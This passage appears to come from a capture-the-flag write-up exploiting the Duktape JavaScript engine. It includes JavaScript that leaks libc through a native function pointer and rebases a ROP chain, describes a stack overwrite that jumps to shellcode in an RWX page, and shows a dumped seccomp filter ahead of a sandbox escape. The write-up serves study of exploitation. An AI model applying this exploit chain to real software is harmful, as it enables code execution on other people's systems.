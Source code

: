 One object of interest is the `duk_hnatfunc`. In these objects there is a function pointer to a native c-function. I.e. `duk_hnatfunc->func` will contain a pointer to the mirc2007 binary. In my case, performance.now() would be my first hit when traversing for this type of object.
```c
struct duk_hnatfunc {
  duk_hobject obj;
  duk_c_function func; /* mirc2077 leak */
  duk_int16_t nargs;
  duk_int16_t magic;
  ...
```

The following JS code will find the `performance.now()` native function object and from that, leak libc and rebase the ROP-chain that is used later on.
```js
this.leak_libc = function(addr) {
  addr = this.find_native_func(addr);
  if(addr)
    elf_base = this.find_elf(addr);
  if(elf_base)
  {
    this.elf = d2i(elf_base.asDouble());
    elf_base.assignAdd(elf_base, this.got_offset);
    this.libc = this.read64i(elf_base);
    this.libc.assignSub(this.libc, this.libc_offset);
    log("[+] Found libc base: " + this.libc);
    this.rebase();
    return this.libc;
  }
  return 0;
};
``` 
### Get code-exec and pivot to shellcode
At this point we could overwrite the `duk_hnatfunc->func` for RIP-control. However, controlling the arguments is not as easy due to how duktape passes the arguments via it's context-pointer.

Another option is to leak the `environ` pointer from libc. This points to the current stack of the process. Walk the stack for a target return-address and overwrite it with a ROP-chain. I chose `<duk_eval_raw+110> ` as it will be hit after interpreting the Javascript.

The ROP-chain is very simple. It will `mmap` an RWX page, `memcpy` the embedded shellcode there and jump to it while passing on a `shellcode_ctx` containing some addresses for the final payload.
## Part II - Escape the Seccomp sandbox 
### Sandbox constraints
The sandbox-restrictions can be dumped with https://github.com/david942j/seccomp-tools
```c
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0e 0xc000003e  if (A != ARCH_X86_64) goto 0016
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x0b 0xffffffff  if (A != 0xffffffff) goto 0016
 0005: 0x15 0x09 0x00 0x00000000  if (A == read) goto 0015
 0006: 0x15 0x08 0x00 0x00000001  if (A == write) goto 0015
 0007: 0x15 0x07 0x00 0x00000003  if (A == close) goto 0015
 0008: 0x15 0x06 0x00 0x00000005  if (A == fstat) goto 0015
 0009: 0x15 0x05 0x00 0x00000008  if (A == lseek) goto 0015
 0010: 0x15 0x04 0x00 0x00000009  if (A == mmap) goto 0015
 0011: 0x15 0x03 0x00 0x0000000c  if (A == brk) goto 0015
 0012: 0x15 0x02 0x00 0x0000000f  if (A == rt_sigreturn) goto 0015
 0013: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0015
 0014: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0016
```
